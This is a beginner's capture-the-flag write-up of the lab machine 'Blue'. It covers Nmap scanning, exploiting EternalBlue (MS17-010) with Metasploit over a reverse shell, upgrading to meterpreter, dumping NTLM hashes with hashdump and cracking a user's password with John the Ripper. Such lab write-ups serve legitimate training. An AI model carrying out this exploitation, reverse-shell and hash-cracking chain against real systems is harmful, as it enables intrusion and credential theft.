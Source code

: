 #CTF
**This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.**

## Recon - Nmap

We start with reconnaissance. The industry standart is [[Nmap]] and that is what I am using.
`nmap [ip]`  is enought for now, and the results are:

```
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:89:D8:BF:23:C3 (Unknown)
```

A lot of new ports that I haven't seen before. After some searching on google I saw that many of these ports are Microsoft related, that suggests that the machine is propably Windows.

So I need to find vulnerabilities on the machine. [[Nmap]] has **N**map **S**cripting **E**ngine (NSE) which has a lot of scripts. I am interested in the vuln section. So after running 
`nmap --script=vuln [ip]` I am prompted with a lof of them. Some are:

```
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

```

Here I am going to exploit the second one , and thats why the room is called Blue, because of the name of that vulnerability called <font color=blue> Eternal Blue </font>.


## Gain Access - [[Metasploit]]

We are going to use Metasploit for this room and get familiar with it.
First I need to update it with `msfupdate`
And the start it with `msfconsole`

I need to `search` for something related with this vulnerability so I do it with
`search ms17-010` which I know from the Recon phase.
I am propted with 5 choises , and I am going to use the first one, called:

`0    exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption`

So I type `use 0` and I am in the module and now I need to see some options so I type
`show options`

```
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://d
                                             ocs.metasploit.com/docs/using-met
                                             asploit/basics/using-metasploit.h
                                             tml
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to
                                             use for authentication. Only affe
                                             cts Windows Server 2008 R2, Windo
                                             ws 7, Windows Embedded Standard 7
                                              target machines.
   SMBPass                         no        (Optional) The password for the s
                                             pecified username
   SMBUser                         no        (Optional) The username to authen
                                             ticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matc
                                             hes exploit Target. Only affects
                                             Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 tar
                                             get machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploi
                                             t Target. Only affects Windows Se
                                             rver 2008 R2, Windows 7, Windows
                                             Embedded Standard 7 target machin
                                             es.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.123.130    yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

I definitely need to set RHOSTS and the payloads settings. So I type:
`set RHOSTS [enemy ip]` and also
`set payload windows/x64/shell/reverse_tcp`

I am ready so I `exploit` it and wait to do its magic!

## Escalate

I background this session with CTRL+Z and I make sure its there with `sessions -l`.
Next I need to seach how to convert a shell to meterpreter shell in metasploit.
I found the module for this job called `post/multi/manage/shell_to_meterpreter`
so I exit from my previous with `back` and use the above. I `show options` and for this one I need to 
`set SESSION [number of session with windows shell]` and I exploit!
Now I have a 3rd session with meterpreter!
I get into the meterpreter session and I run `shell` and I am in the windows machine!
With `whoami` I get `nt authority\system` which is good news.
I exit and go back to meterpreter. 
I need to migrare our process to this machine because we need to match the architecture of that machine.  So I `ps` and search for one stable process. A good bet is :

```
 1280  692   spoolsv.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\spoolsv.exe
```


So I `migrate 1280` and we are good to go!
## Cracking

Now I need to find the passwords of the users and I can do that with the command
`hashdump` which gives me :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

I see that we have a non default account named Jon , and that's what I am interested in.
I take the hashed password and save it to a .hash file on my local machine. 
First I need to find the type of the hash.
Going back to [[John The Ripper#Identifying Hashes]] I download the hash-id.py module and I run it.
I paste the hash and :
```
Possible Hashs:
[+] md5($pass.$salt) - Joomla
```

So I run [[John The Ripper]] with: 
`john Jon.hash --format=NT --wordlist=/opt/rockyou.txt`

And we have a result! I run 
`john --format=NT Desktop/Jon.hash --show` to see my results and I have the password <font color=red > alqfna22 </font>

## Find flags!

*Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!*

The hint for the first flag says _This flag can be found at the system root._
So I go back to my meterpreter console and I `cd ..` a couple times.
I `dir` and I find my first flag.

For the second we have _This flag can be found at the location where passwords are stored within Windows._
After some search online I find that the location for this one is `C:\Windows\System32\config`
and I have the second flag.

And for the third we have _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._
I am going back a few folder and I cd into Users, there I can find Jon. I do some diggin and I find my third flag in the Documments folder.
## Conclusion

Very intresting stuff! I got to know more about [[Nmap]] ,[[John The Ripper]], privilage escalation and Windows in general. The flags needed some patience to find, but all in all a very good machine.